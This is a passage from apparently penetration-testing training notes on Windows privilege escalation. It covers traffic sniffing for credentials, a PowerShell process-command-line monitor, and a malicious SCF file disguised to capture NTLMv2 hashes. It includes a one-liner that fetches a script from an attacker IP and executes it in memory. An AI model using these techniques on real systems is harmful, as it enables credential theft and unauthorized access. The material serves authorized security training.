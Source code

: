 To Be Updated..
## **Additional Techniques**
### Interacting with Users

#### Traffic Capture

If `Wireshark` is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.

The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.

#### Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. **It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.**

```shell-session
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

We can host the script on our attack machine and execute it on the target host as follows.

```powershell
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

#### SCF on a File Share

An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation.

create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.
